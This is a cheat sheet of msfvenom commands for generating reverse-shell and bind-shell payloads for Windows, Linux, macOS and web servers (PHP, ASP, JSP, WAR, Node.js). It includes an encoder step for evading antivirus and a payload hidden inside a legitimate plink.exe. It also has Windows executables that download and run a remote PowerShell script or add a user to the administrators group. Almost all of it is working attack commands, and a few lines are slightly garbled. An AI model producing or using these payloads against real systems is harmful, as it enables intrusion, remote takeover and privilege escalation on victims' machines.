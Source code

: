 # MSFVENOM/SHELLS

- WINDOWS
    
    **REVERSE SHELL** msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
    
    **BIND SHELL** msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
    
    **USER CREATION** msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
    
     **COMMAND EXECUTION** msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('[http://IP/nishang.ps1](http://ip/nishang.ps1)')\"" -f exe > pay.exe OR msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
    
    **ENCODER** msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
    
    EMBEDDED INSIDE EXECUTABLE FILE msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
    
- LINUX PAYLOADS
    
    **REVERSE SHELL** msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
    
    **BIND SHELL msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf**
    
- MAC PAY LOADS
    
    REVERSE SHELL msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
    
    BIND SHELL msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
    
- WEB APP PAYLOADS
    
    PHP SHELL 
    
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
    
    ASP/X  
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
    
    JP msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
    
    WAR msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
    
    NODEJS sfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)